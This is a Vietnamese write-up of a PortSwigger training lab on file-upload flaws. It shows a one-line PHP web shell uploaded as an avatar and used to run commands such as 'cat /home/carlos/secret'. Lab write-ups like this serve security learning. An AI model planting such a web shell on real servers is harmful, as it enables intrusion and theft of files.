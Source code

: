 ## 1. Thông tin bài lab
- Tên lab: **Remote code execution via web shell upload**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

-	Thử truy cập file ảnh đã upload theo đường dẫn từ response nhưng không truy cập được file ảnh

![img3](./img/lab1/img3.png)

-	Thử nghiệm trên một số đường dẫn khác

![img4](./img/lab1/img4.png)

- Ta có thể truy cập đến file ảnh đã upload theo đường dẫn _**/files/avatars/test.png**_

![img5](./img/lab1/img5.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

![img6](./img/lab1/img6.png)

**Kiểm tra giả thuyết**
-	Sử dụng phương thức GET để truy cập đến file test.php, ta có thể thấy trang web đã thực thi file php mà ta đã upload. Qua đó, ta có thể tạo một web shell để RCE và đọc nội dung tệp tin bí mật.

![img7](./img/lab1/img7.png)

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

![img8](./img/lab1/img8.png)

-	Gói tin Response thông báo upload file shell.php thành công:

![img9](./img/lab1/img9.png)

- Sử dụng phương thức GET và truyền vào tham số `x=ls` để liệt kê các file trong thư mục _**/files/avatars**_
-	Ta thấy có thể truyền lệnh ls và server có thể thực hiện theo ý của ta. 

![img10](./img/lab1/img10.png)

-	Tiếp tục truyền tham số `x=cat /home/carlos/secret` thông qua Burp Suite để đọc nội dung file.
-	Khi gửi gói tin, ta gặp lỗi Bad Request, thử lại trên trình duyệt.

![img11](./img/lab1/img11.png)

-	Khi ta thử lại trên trình duyệt, ta đã đọc được nội dung file bí mật

![img12](./img/lab1/img12.png)

**Chú ý:** Khi truyền tham số trên trình duyệt, ta có thể thấy URL trên trình duyệt đã tự động mã hóa _“khoảng trống”_ thành _%20_. Thử lại trên Burp Suite thì có thể đọc được nội dung của file bí mật.

![img13](./img/lab1/img13.png)














